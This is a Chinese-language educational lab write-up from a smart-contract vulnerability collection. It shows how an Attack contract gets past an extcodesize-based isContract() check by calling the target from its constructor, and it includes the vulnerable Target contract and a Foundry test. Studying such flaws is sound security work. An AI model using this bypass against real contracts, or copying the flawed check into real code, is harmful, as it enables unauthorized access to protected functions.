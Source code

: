 # 绕过isContract()验证 
[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  

**名称：** 绕过isContract()验证  

**描述：**   
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过判断是否为智能合约的检测机制。  


**参考：**  
https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  


**Target合约：**  
```
contract Target {
    function isContract(address account) public view returns (bool) {
        // 此方法使用了EVM的‘extcodesize’汇编指令，来检查给定地址处的代码大小
        // 对于在构造过程中的合约，这个方法可能会返回0，因为在构造函数执行的末尾才会存储代码。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```
// 测试攻击合约是否可以绕过目标合约检查的函数。
function testBypassContractCheck() public {
    // 在攻击之前记录Target合约的当前状态。 
    // 这通常会返回一个布尔值，指示合约是否已泄露。
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 创建攻击合约的新实例，并将Target合约的地址传递给该实例。
    // 这将启动对目标合约的攻击。
    AttackerContract = new Attack(address(TargetContract));

    // 攻击后再次记录目标合约的状态。
    // 如果攻击成功，则状态应与初始状态不同。
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 记录一条声明，表明漏洞攻击过程已完成。
    console.log("Exploit completed");
}


// 为攻击Target合约而创建的攻击合约。
contract Attack {
    // 表示当前合约本身是否是一个合约
    bool public isContract;

    // 用于存储当前合约的地址。
    address public addr;

    // 当Attack合约被创建时，构造函数会被触发。
    // 它接受一个目标合约的地址作为参数。
    constructor(address _target) {
        // 调用目标合约的isContract()函数，传递当前合约的地址。
        // 这通常是Target合约中的安全检查，以查看调用方是否为合约。
        // 但是由于这个调用是在构造函数中进行的，isContract()中的extcodesize检查将返回false。
        isContract = Target(_target).isContract(address(this));

        // 将当前合约的地址分配给addr变量。
        addr = address(this);

        // 调用Target合约的protected()函数，该函数可能拒绝合约调用。
        // 然而，由于构造函数中的isContract()检查的漏洞，这次调用实际上是成功的。
        Target(_target).protected();
    }
}
```  
**红框：**  
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F273d7caf-d1ec-435a-b60a-ef1dc2698ca1%2FUntitled.png?table=block&id=164fb814-62c9-4308-b378-aba274e06594&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)